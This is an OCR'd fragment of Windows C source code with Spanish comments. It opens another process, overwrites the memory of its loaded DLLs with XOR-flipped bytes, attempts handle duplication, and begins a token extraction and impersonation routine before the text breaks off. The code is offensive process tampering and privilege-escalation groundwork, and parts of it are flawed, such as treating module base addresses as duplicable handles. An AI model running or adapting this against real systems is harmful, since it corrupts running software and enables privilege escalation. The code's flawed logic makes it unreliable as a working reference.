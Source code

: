 ```c
            if (ReadProcessMemory(hProcess, mbi.BaseAddress, buffer, sizeof(buffer), &bytesRead)) {
                printf("Leídos %zu bytes en la dirección: %p\n", bytesRead, mbi.BaseAddress);

                // Lógica de fuzzing sobre los bytes leídos
                for (SIZE_T i = 0; i < bytesRead; ++i) {
                    buffer[i] ^= 0xFF; // Ejemplo: Aplicar una operación simple para fuzzing
                }

                // Probar escribir de nuevo en la memoria
                if (!WriteProcessMemory(hProcess, mbi.BaseAddress, buffer, bytesRead, &bytesRead)) {
                    printf("No se pudo escribir en la dirección: %p, error: %lu\n", mbi.BaseAddress, GetLastError());
                } else {
                    printf("Fuzzing escrito en la dirección: %p\n", mbi.BaseAddress);
                }
            }
        }
        // Mover al siguiente bloque de memoria
        baseAddress = (LPCVOID)((char*)mbi.BaseAddress + mbi.RegionSize);
    }
}

void EnumerateHandlesAndDuplicate(DWORD pid) {
    // Abrir el proceso objetivo
    HANDLE hProcess = OpenProcess(PROCESS_DUP_HANDLE | PROCESS_QUERY_INFORMATION, FALSE, pid);
    if (!hProcess) {
        printf("No se pudo abrir el proceso, error: %lu\n", GetLastError());
        return;
    }

    // Enumerar los módulos para trabajar con handles y memoria de la DLL
    HMODULE hMods[1024];
    DWORD cbNeeded;
    if (EnumProcessModules(hProcess, hMods, sizeof(hMods), &cbNeeded)) {
        for (int i = 0; i < (cbNeeded / sizeof(HMODULE)); i++) {
            MODULEINFO mi;
            if (GetModuleInformation(hProcess, hMods[i], &mi, sizeof(mi))) {
                printf("Módulo en dirección base: %p, tamaño: %lu\n", mi.lpBaseOfDll, mi.SizeOfImage);
                FuzzDLLMemory(hProcess, mi.lpBaseOfDll);
            }

            // Intentar duplicar un handle del módulo (este es un ejemplo, los handles en cuestión se deben identificar con herramientas adicionales)
            HANDLE dupHandle;
            if (DuplicateHandle(hProcess, hMods[i], GetCurrentProcess(), &dupHandle, 0, FALSE, DUPLICATE_SAME_ACCESS)) {
                printf("Handle duplicado con éxito: %p\n", dupHandle);
                CloseHandle(dupHandle);
            } else {
                printf("No se pudo duplicar el handle, error: %lu\n", GetLastError());
            }
        }
    }

    CloseHandle(hProcess);
}

void ExtractAndImpersonateToken(DWORD pid) {
    HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, pid);
    if (!hProcess) {
        printf("No se pudo abrir el proceso, error: %lu\n", GetLastError());
```